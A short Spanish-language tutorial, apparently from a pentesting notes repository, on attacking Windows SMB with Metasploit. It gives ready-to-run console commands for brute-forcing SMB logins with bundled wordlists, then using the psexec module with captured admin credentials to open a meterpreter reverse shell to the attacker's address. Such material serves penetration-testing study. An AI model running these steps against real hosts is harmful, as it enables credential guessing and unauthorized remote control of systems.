 # Explotación de SMB con PsExec y Metasploit

## 1. Escaneo de credenciales con `scanner/smb/smb_login`

Primero intentamos acceder al objetivo usando credenciales conocidas o realizando un ataque de fuerza bruta.

### Con credenciales conocidas

Abrir Metasploit:
```
msfconsole
```

Dentro de Metasploit:
```
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP_OBJETIVO>
set SMBUser <USUARIO>
set SMBPass <CONTRASEÑA>
set THREADS 10
run
```

## 2. Fuerza bruta con listas de usuarios y contraseñas

Si no tenemos credenciales, podemos usar las listas que vienen con Metasploit para probar combinaciones.

### Con archivo de usuarios y archivo de contraseñas

```
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP_OBJETIVO>
set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
set pass_file /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set THREADS 10
run
```

También puedes usar sólo un diccionario de usuarios con una contraseña fija o viceversa.

## 3. Explotación con PsExec

Cuando consigamos credenciales válidas con privilegios de administrador, podemos ejecutar comandos remotos con PsExec.

### Uso de `exploit/windows/smb/psexec`

```
use exploit/windows/smb/psexec
set RHOSTS <IP_OBJETIVO>
set SMBUser <USUARIO>
set SMBPass <CONTRASEÑA>
set LHOST <TU_IP>
exploit
```

Esto abrirá una sesión de `meterpreter` si las credenciales son correctas y tienen privilegios suficientes.

